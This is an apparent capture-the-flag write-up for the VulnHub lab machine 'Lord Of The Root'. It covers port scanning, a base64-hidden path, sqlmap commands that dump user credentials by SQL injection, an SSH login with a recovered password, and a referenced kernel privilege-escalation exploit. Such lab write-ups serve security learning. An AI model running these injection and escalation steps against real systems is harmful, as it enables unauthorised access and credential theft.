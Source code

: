 <h1>Lord Of The Root Write-Up</h1>

<h2>NMAP</h2>

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux;
protocol 2.0)
| ssh-hostkey: 
|   1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
|   2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
|_  256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
1337/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
```

**NOTE : IF PORT 1337 IS NOT OPEN YOU NEED TO KNOCK I UPLOADED .sh  SCRIPT TO DO THAT ;-**

<h3>PORT 1337</h3>

In the source code of any 404 page there is a base64 encoded code :
![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Lord%20Of%20The%20Root/Images/base.png)

"THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh"

on decoding this code 2 times using (base64 -d ) gives :


**/978345210/index.php**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Lord%20Of%20The%20Root/Images/decoded.png)

<h3>Sql Injection :</h3>

```
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms --dbs
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D Webapp
-T Users -C id,username,password --dump
```
![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Lord%20Of%20The%20Root/Images/sqlmap-passwords.png)

```
ssh smeagol@192.168.56.35
password : MyPreciousR00t 
```

<h2>Privilege Escalation :</h2>

Exploit : https://www.exploit-db.com/exploits/39166

gcc exploit.c -o exploit 

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Lord%20Of%20The%20Root/Images/priv%20esc%20and%20flag.png)

